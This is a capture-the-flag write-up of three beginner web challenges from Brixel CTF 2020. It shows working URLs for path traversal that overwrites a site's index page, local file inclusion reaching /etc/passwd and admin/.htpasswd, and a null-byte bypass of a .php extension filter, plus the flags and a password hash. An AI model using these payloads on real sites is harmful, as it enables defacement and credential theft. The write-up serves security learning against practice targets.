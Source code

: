 # 2020 Brixel CTF

Week long beginner friendly ctf taking place December 2020

## Overview


## Internet 15: Dadjokes

**Challenge**
Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?

**Solution**
The link takes you to a site that has clearly been defaced. Looking at the source, there's a comment that says:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
Navigating to /index_backup.html we find that we can submit a new dad joke, or read a dad joke.  Looking at the submit feature, it looks like it includes information about the joke that you are submitting in the URI.
```
http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=test
```
I was most interested in that filename parameter.  Changing that to test.php and then trying to submit gets a clue from the creator:
```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
So we can't create a php file and get code execution, but maybe this is how the attackers defaced the main page? I thought to try to change the filename to index.html
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=test&submit=true
```
This results in a different hint from the creator:
```
You are definitely on the right track here... but what are you trying to accomplish?
```
Thinking back to the challenge, they wanted me to bring back the original dadjokes site. I thought that maybe I needed to include the source for the index_backup.html page. 
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=%3Chtml%3E%3Ctitle%3EDadJokes,%20your%20source%20of%20lame%20dad%20jokes%3C/title%3E%3Cbody%3E%3Cdiv%20align=%22center%22%3E%3Ch1%3EDadJokes%3C/h1%3E%3Chr%3E%3Cimg%20src=%22images/banner.png%22%20alt=%22dadjokes%22%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/read.php%22%3ERead%20dad%20jokes%3C/a%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/submit.php%22%3Esubmit%20your%20own%20jokes%3C/a%3E%3C/div%3E%3C/html%3E&submit=true
```
That worked! We are given the flag after submitting that payload.

**Flag**
```
brixelCTF{lamejoke}
```

## Internet 15: Pathfinders #1
**Challenge**
These f*cking religious sects!

These guys brainwashed my niece into their demeted world of i-readings and other such nonsense.

The feds recently closed their churches, but it seems they are preparing for a new online platform to continue their malicious activities.

can you gain access to their admin panel to shut them down?

Their website is: http://timesink.be/pathfinder/

**Solution**
Navigating to the pathfinders homepage, it is immediately evident that the challenge is going to involve some sort of local file inclusion(LFI).  I assume this, because we have control over the page paremeter in the URL.  Using the members/locations links, the page paremeter changes to members.php and locations.php respectively.  
First thing I tried was to find the passwd file, just to see if there was a LFI vulnerability.
```
http://timesink.be/pathfinder/index.php?page=../../../../../../etc/passwd
```

This results in a hint from the creator, but I guess I'm on the wrong path
```
naughty, naughty! you're only supposed to go after stuff in admin! no back traversing!/
```

Based on that hint, I started trying to find files in the admin folder, starting with the index page for the admin portal:
```
http://timesink.be/pathfinder/index.php?page=admin/index.php
```
This looks like I'm on the right path, but not quite there:
```
There is nothing here! not even bonus points I'm afraid :( you should get the password, not the page.
```
So if I'm trying to find the password, I figured I should look for config files. I first thought I needed to brute force the admin directory, looking for a php file that would contain a password. However, while manually fuzzing the directory I found the solution
```
http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
```


**Flag**
```
#normally you would brute force this, but that is not in scope of this challenge. The flag is: brixelCTF{unsafe_include}
admin:$apr1$941ydmlw$aPUW.gCFcvUbIcP0ptVQF0
```

## Internet 20: Pathfinders #2
**Challenge**
It seems they updated their security. can you get the password for their admin section on their new site?

http://timesink.be/pathfinder2/

oh yeah, let's assume they are running a php version below 5.3.4 here...

**Solution**
This page looks very similar to the previous pathfinder challenge, except there's a new warning at the bottom of the page
```
Due to a recent hacker intrusion, we upgraded our security to only allow for php files to be included.
```

Testing the solution to the previous challenge, we see that it's now filtering any file that doesn't have the '.php' extension
```
file not ending in .php, terminating.
```

Since they hinted that this site is running an outdated version of php, I thought to try including a null byte
```
http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00
```
That still doesn't work, but tacking '.php' onto the end of the null byte gets us the flag!
```
http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php
```

**Flag**
```
Great work! the flag is brixelCTF{outdated_php}
```
